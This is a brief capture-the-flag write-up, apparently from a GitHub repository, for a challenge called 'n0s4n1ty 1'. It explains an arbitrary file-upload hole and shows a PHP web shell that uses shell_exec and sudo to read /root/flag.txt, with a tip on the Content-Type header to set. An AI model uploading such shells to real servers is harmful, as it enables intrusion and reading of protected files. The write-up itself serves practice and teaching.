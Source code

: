 # n0s4n1ty 1

This is a file upload vulnerability. We can arbitrarily upload any file and execute it. I've uploaded a php file (make sure to set Content-Type to application/x-httpd-php). It's also possible to use the `sudo` command so we use that to read the flag.

```php
<?php
$output = shell_exec('sudo cat /root/flag.txt');
echo $output;
?>
```
